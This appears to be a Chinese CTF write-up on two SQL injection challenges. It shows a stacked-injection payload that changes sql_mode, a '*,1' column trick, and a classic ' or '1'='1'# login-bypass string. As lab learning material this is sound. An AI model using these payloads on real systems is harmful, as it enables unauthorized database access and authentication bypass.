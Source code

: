 参考资料：https://www.jianshu.com/p/36f0772f5ce8

### [SUCTF 2019]EasySQL（sql堆叠注入）

本题有三种回显，并且可以进行堆叠注入

源码中的查询语句为

```mysql
select ".$post['query']."||flag from Flag
```

#### 预期解

通过堆叠注入sql_mode的值为PIPE_AS_CONCAT

设置sql_mode为PIPE_AS_CONCAT后可改变“||”的含义为连接字符串
>在oracle缺省支持通过“||”来实现字符串拼接，但在mysql缺省不支持。需要调整mysql的sql_mode模式：PIPE_AS_CONCAT 来实现oracle的一些功能。

>缺省：即系统默认状态，意思与”默认”相同。

payload：
```mysql
1;set sql_mode=PIPES_AS_CONCAT;select 1
```



#### 非预期解

payload：

```mysql
*,1
```

原sql语句变为

```mysql
select *,1 ||flag from Flag
```

而*号为查询所有数据，即实现了对flag的查询



### [极客大挑战 2019]EasySQL（万能密码）

按照题意可知是一道注入题

尝试使用万能密码：

```mysql
1' or '1'='1'#
1' or '1'='1'#
```
